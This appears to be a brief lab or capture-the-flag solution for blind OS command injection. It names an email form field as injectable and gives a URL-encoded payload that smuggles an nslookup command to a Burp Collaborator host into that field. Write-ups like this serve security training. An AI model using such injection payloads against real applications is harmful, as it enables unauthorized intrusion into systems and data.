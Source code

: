 
# Solution

**The vuln param**
```
&email=fow%40email.com&subject=OOB&message=The+app+executes+a+shell+command
```

Solution:
The injectable param is the email field.
Use the `nslookup` cmd agains the burp collaborator addy.
And be sure to URL encode it

<br>

**The exploit**
```
%3b+nslookup+collboratoraddy.oastify.com%3b
```
